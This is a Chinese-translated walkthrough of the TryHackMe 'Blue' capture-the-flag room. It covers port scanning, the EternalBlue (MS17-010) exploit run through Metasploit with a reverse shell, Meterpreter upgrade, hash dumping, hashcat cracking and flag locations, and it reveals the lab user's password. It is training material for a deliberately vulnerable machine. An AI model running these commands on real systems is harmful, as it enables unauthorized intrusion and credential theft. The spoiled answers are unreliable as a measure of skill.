# TryHackMe:蓝色

> 原文：<https://infosecwriteups.com/tryhackme-blue-5166cedadead?source=collection_archive---------5----------------------->

## 游戏攻略

大家好，这边请。希望你在屏幕这边做得很好。所以，让我们开始开发我们的房间。

另外，我为这个博客做了一个小缩略图，让我知道它是怎样的:)



# 侦察:

在首字母，我想出口 IP，以节省时间 XD。以后你可以用$IP 来使用它



那么，让我们从 rustscan 开始，它是一个查找开放端口的更快的工具:

`rustscan -a $IP | tee rustscan.txt`

| 'tee '用于保存文件



Rustscan 日志

现在我们有了开放端口，让我们从 Nmap 开始:

`nmap -A -Pn -oN nmap.txt $IP`

| `-A` 为所有，`-Pn`为无视乒，`-oN`为节约输出



Nmap 日志

现在我们可以看到 139 端口正在使用`Windows 7 Professional 7601 Service Pack 1 netbios-ssn`。经过一些搜索，它是脆弱的，这种利用是众所周知的

```
‘EternalBlue’ SMB Remote Code Execution (MS17–010)
```

# 获取外壳:

现在我们知道如何利用，那么我们还在等什么:

我曾经用 metasploit 来利用这一点。

`msfconsole -q`

| `-q`用于访问直接接口

现在搜索漏洞



搜索漏洞

现在是时候使用 exploit 并为反向 shell 设置有效负载了。

`use 0`或`use exploit/windows/smb/ms17_010_eternalblue`



设置有效载荷和`run / exploit`



# Shell 升级:Meterpreter

`search shell_to_meterpreter`并使用它

`set SESSION 1`和`run`


# 开裂:



让我们再开一次会



我不知道为什么，但我的会议正在关闭，直到我得到第五届会议

通过`sessions -i <session ID>`进行评估

# 获取哈希转储:

从现在开始，截图将会有另一种外观，因为使用了终端而不是终端。

`run post/windows/gather/hashdump`



Hashdump

使用 hashcat 破解它

```
hashcat --username -a 0 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

而我们得到了，乔恩的**密码:** `alqfna22`

# 标志:

国旗时间到了，哟！！

简单搜索一下🤷‍♂️，怎么会？让我们看看

`dir *.txt /s`



标志搜索 1

但是没有显示 2 号旗。让我们深入吧

```
dir flag* /s /p
```



标志搜索 2

```
flag1.txt C:\flag1.txt
flag2.txt C:\Windows\System32\config\flag2.txt
flag3.txt C:\Users\Jon\Documents\flag3.txt
```

现在我们已经成功地完成了 TryHackMe 的蓝色房间。

如果你已经走了这么远，那么请务必花时间提供反馈。❤将不胜感激

*   || [房间](https://tryhackme.com/room/blue) || [推特](https://twitter.com/namx05)| |[GitHub](https://github.com/namx05)| |[insta gram](https://instagram.com/naman5.6)| |